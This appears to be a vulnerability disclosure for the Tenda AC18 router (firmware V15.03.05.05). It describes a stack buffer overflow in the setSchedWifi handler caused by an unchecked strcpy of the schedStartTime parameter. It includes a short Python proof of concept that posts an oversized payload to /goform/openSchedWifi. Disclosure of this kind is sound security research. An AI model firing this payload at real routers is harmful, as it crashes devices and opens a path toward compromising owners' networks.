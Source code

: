 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305224534793](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224534793.png)

![image-20240305224846344](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224846344.png)

![image-20240305224549912](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224549912.png)

![image-20240305224605215](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305224605215.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305225331471](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225331471.png)
